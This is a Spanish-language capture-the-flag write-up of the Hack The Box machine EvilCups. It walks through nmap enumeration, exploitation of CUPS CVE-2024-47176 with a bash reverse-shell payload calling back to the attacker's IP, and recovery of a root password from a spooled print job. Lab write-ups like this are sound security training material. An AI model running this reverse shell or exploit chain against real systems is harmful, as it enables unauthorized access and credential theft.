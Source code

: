 ```yaml
---
title: EvilCups

---
```

* * *

En este writeup, exploramos la máquina **EvilCups** de Hack The Box, donde explotamos múltiples vulnerabilidades para escalar privilegios y comprometer el sistema. Utilizamos técnicas como la **enumeración de servicios expuestos**, la explotación de **vulnerabilidades recientemente publicadas de CUPS**,etc...

**CUPS** es un sistema de impresión utilizado en sistemas operativos UNIX, que permite a los usuarios configurar y gestionar impresoras locales y en red mediante el uso de controladores.

# [](#header-1)RECONOCIMIENTO
Realizamos un escaneo con nmap:

	❯ nmap -sCV -v 10.10.11.40 -Pn -T3
	
Como resultado encontramos esto:
  ```ruby
  
  PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 364995038db44c6ea92592af3c9e0666 (ECDSA)
|_  256 9fa4a9391120e096eec49a6928950c60 (ED25519)
631/tcp open  ipp     CUPS 2.4
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Home - CUPS 2.4.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Y encontramos dos puertos Tcp abiertos.
Vamos a ver que encontramos dentro de el puerto 631.

Aquí encontramos una versión:
![Texto alternativo](/assets/evilcups1.png)
* * *

# [](#header-1)Foothold

El foothold en esta máquina es fácil. Vamos a buscar vulnerabilidades en esa versión de CUPS:

Y relacionada con esa versión encontramos un CVE, en concreto este:
	CVE-2024-47176

Asique vamos a proceder a explotarlo.
```js
❯ python3 evilcups.py 10.10.15.127 10.10.11.40 "bash -c 'bash -i >& /dev/tcp/10.10.15.127/8484 0>&1'"
```
![Texto alternativo](/assets/EvilCups2.png)

Para conseguir la reverse shell nos metemos dentro de la "impresora" que hemos conseguido crear mediante el exploit, y vamos a seleccionar esta opcion:

![Texto alternativo](/assets/EvilCups3.png)
![Texto alternativo](/assets/EvilCups4.png)

Y ya estaríamos con la reverse shell, listamos el contenido dentro del directorio en el que nos encontramos y encontraríamos la user flag.

Después de estar mirando por la máquina encontré que todos los trabajos de impresión se almacenan en /var/spool/cups

Como no tenemos permisos para listar el contenido, necesitamos saber cual es el siguiente "trabajo"/documento que la impresora que ya existe, para poder listarlo y así descargármelo.

En este caso ese "trabajo" de impresion tiene el nombre d00001-001
En el que significa:

```js
❯ -d: nos indica que es un archivo de datos de impresion
	00001: identifica el primera trabajo ne la cola
	001: especifica la instancia única del trabajo.
```
Todo este nombre se suele deducir a partir de el formato estandar que se utiliza en cups.
Tambien podriamos obtener este nombre realizando varios comandos en la maquina victicma, para ver que trabajos estan en cola como:
```js
	lpstat -o
	ls /var/spool/cups (si tenemos permisos)
	lpq
```
Pués una vez encontrado ese "trabajo" en cola, me lo voy a pasar a mi maquina para pasarlo a pdf y poder leerlo.

Para convertirlo a pdf utilize este comando:

```js
	ps2pdf d00001-001
```

Y dentro de ese archivo que ahora es un pdf encontramos la contraseña de root.
![Texto alternativo](/assets/EvilCups5.png)

Una vez encontrada la contraseña de root vamos a proceder mediante SSH a conectarnos y capturar la rootflag:

![Texto alternativo](/assets/EvilCups6.png)

PWNED!

*Documentación de aporte*

https://www.cups.org/doc/spec-design.html
https://github.com/AxthonyV/CVE-2024-47176
